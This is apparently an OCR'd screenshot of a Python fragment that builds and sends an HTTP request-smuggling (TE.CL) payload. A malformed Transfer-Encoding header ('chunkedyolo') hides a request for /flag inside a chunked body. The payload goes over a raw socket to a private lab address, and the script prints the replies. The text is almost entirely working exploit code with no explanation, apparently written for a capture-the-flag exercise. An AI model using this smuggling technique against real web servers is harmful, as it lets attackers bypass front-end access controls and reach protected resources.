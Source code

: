 ```python
    body = hex_size + "\r\n" + real_request + "\r\n0\r\n\r\n"                                                          
    wrapping_request = (                                                                                               
        f"POST /nawak HTTP/1.1\r\n"                                                                                    
        f"Host: {parts.netloc}\r\n"                                                                                    
        f"Transfer-Encoding: {encoding}\r\n"                                                                           
        f"Content-Length: {len(hex_size) + 2}\r\n"                                                                     
        "Connection: keep-alive\r\n"                                                                                   
        "\r\n"                                                                                                         
    )                                                                                                                  
                                                                                                                       
    dummy_request = (                                                                                                  
        f"GET /yolo HTTP/1.1\r\n"                                                                                      
        f"Host: {parts.netloc}\r\n"                                                                                    
        "\r\n"                                                                                                         
    )                                                                                                                  
    wrapping_request += body + dummy_request                                                                           
    return wrapping_request                                                                                            
                                                                                                                       
                                                                                                                       
req = te_cl("http://192.168.242.131/flag", "chunkedyolo")                                                              
print(req)                                                                                                             
                                                                                                                       
sock = socket.socket()                                                                                                 
sock.connect(("192.168.242.131", 80))                                                                                  
sock.send(req.encode())                                                                                                
print(sock.recv(2048).decode())                                                                                        
print(sock.recv(2048).decode())                                                                                        
print(sock.recv(2048).decode())                                                                                        
print(sock.recv(2048).decode())                                                                                        
sock.close()
```

